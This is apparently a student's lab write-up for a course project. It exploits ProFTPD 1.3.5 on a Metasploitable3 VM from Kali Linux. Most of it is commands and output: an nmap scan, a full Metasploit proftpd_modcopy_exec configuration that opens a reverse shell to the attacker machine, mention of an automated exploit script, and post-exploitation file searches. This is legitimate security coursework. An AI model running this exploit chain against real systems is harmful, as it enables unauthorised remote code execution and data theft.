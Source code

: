 # Phase 1: Service Setup & Compromise

This directory contains all artifacts, scripts, and outputs for **Phase 1** of the ICS344 Course Project: identifying and exploiting a vulnerable FTP service on the Metasploitable3 VM.

---

## 1. Environment IP Addresses

1. **Attacker (Kali Linux)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.8/24
   ```

   ![](screenshots/kali_ping.jpg)

2. **Victim (Metasploitable3)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.15/24
   ```

   ![](screenshots/metasploitable_ip.jpg)

---

## 2. FTP Service Detection

We confirmed an FTP server running ProFTPD 1.3.5 on port 21:

```bash
$ nmap -sV -p 21 10.0.2.15
# 21/tcp open  ftp  ProFTPD 1.3.5
```

---

## 3. Metasploit Exploit: `mod_copy_exec`

We used the `proftpd_modcopy_exec` exploit to drop a PHP payload and obtain a shell.

```bash
$ msfconsole -q
msf6> use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RHOSTS 10.0.2.15
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RPORT 21
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPUSER faisal
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPPASS faisal1234
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set SITEPATH /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set TMPPATH /tmp
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LHOST 10.0.2.8
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LPORT 4444
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> exploit
```

### 3.1 Session Established

```text
[*] Started reverse TCP handler on 10.0.2.8:4444
[*] 10.0.2.15:80 – Connected to FTP server
[*] 10.0.2.15:80 – Sending copy commands to FTP server
[*] 10.0.2.15:80 – Executing PHP payload /6zRR2YD.php
[*] 10.0.2.15:80 – Deleted /var/www/html/6zRR2YD.php
[+] Command shell session 1 opened (10.0.2.8:4444 -> 10.0.2.15:56577)
```

![](screenshots/msf_run_exploit.jpg)

---

## 4. Module Configuration & Targets

* **Payload Options**: `cmd/unix/reverse_netcat`, `cmd/unix/reverse_perl`, etc.
* **Detected Target**: ProFTPD 1.3.5 (auto-detected)

![](screenshots/msf_set.jpg)
![](screenshots/msf_use.jpg)

---

## 5. Automated Exploit Script

We wrapped the above steps into a Python script (`script2.py`) for repeatable execution:

```bash
$ ./script2.py
# output:
#   Started reverse TCP handler on 10.0.2.8:4444
#   Connected to FTP server
#   Sending copy commands...
#   Executing PHP payload /MFG4doW.php
#   Deleted /var/www/html/MFG4doW.php
# [+] Command shell session 1 opened
```

![](screenshots/script_automation.jpg)

---

## 6. Interactive Shell & Enumeration

Once the session was open, we ran basic enumeration:

```bash
sessions -i 1
whoami
ls -al /
find / -name secret*.txt
```

This confirmed root-level file access and located `secret.txt` on the filesystem.

---

### Deliverables for Phase 1

* **Screenshots** (in `screenshots/`):

  * `kali_ping.jpg`
  * `metasploitable_ip.jpg`
  * `msf_run_exploit.jpg`
  * `msf_set.jpg`
  * `msf_use.jpg`
  * `script_automation.jpg`
* **Exploit Script**: `script2.py`
* **Raw Scan Outputs**: `phase1_nmap.txt`, `phase1_nikto.txt`
* **Custom Banner Script**: `phase1_http_banner.py`

Proceed to Phase 2 for SIEM ingestion and analysis of these logs.
